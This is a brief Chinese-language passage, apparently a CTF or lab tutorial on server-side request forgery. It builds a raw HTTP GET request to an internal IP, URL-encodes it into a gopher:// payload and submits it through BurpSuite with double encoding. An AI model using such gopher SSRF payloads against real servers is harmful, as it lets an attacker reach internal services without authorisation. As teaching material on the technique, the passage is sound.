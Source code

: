 1.直接提交

构造代码：

```
GET /name.php HTTP/1.1
Host: 172.250.250.4
```

（这里会有个换行）

将头部内容URL编码

gopher://172.250.250.4:80/_GET%20/name.php%3fname=benben%20HTTP/1.1%0d%0AHost:%20172.250.250.4%0d%0A

#### 2.BurpSuite抓包

提交：gopher://172.250.250.4:80/_

BurpSuite抓包：![image-20240401154607421](SSRF/image-20240401154607421.png)

把构造的代码粘贴在url后面，做两次URL编码进行提交
